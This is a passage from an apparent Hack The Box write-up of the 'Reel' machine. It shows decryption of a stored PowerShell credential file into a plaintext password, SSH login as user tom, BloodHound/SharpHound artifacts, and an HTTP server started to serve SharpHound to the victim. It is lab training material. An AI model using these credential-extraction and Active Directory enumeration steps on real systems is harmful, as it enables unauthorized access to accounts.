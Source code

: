 To get a plaintext password from the file by loading it with Import-CliXml, and then dumping the results:  

{% highlight powershell %}
PS > $tom=Import-CliXml -Path C:\Users\nico\Desktop\cred.xml
PS > $tom.GetNetworkCredential().Password
1ts-mag1c!!!
{% endhighlight %} 

This plaintext password was used to gain SSH access to Reel as the user TOM.  

{% highlight zsh %}
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Reel]─[root@Arthorias]─[0]─[2505]
╰─[:)] # ssh tom@10.10.10.77
tom@10.10.10.77  password:
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

tom@REEL C:\Users\tom>whoami
htb\tom
{% endhighlight %} 

## Privilege Escalation via AD (Tom => Claire)
### Enumeration  
In the tom user’s Desktop directory, there was a folder titled **"AD Audit"** containing artifacts from a BloodHound Active Directory audit. This included a version antigua de SharpHound.

{% highlight s %}
C:\users\tom\desktop\AD Audit\BloodHound\Ingestors> dir
    Directory: C:\users\tom\desktop\AD Audit\BloodHound\Ingestors
Mode                LastWriteTime     Length Name
----                -------------     ------ ----
-a---        11/16/2017  11:50 PM     112225 acls.csv
-a---        10/28/2017   9:50 PM       3549 BloodHound.bin
-a---        10/24/2017   4:27 PM     246489 BloodHound_Old.ps1
-a---        10/24/2017   4:27 PM     568832 SharpHound.exe
-a---        10/24/2017   4:27 PM     636959 SharpHound.ps1
{% endhighlight %} 

## Active Directory Privileged Access
SharpHound allows us to discover hidden dependencies in Active Directory environments and, together with BloodHound, which presents a graphical interface for it, we can easily discover our next step to follow.   
We update [SharpHound.ps1](https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Ingestors/SharpHound.ps1) to the latest version and upload it to the victim.  
We mount an HTTP server on our attacking machine and serve the updated SharpHound file.  

{% highlight zsh %}
┌─[root@BinaryChaos] - [/home/gerh/Escritorio/Prometheus/Ethic4l-Hacking/SERVER_FILE] - [Sun Jun 23, 03:02]
└─[$]> # python3 -m http.server 
Servidor HTTP iniciado en el puerto: http://localhost:8000
{% endhighlight %} 
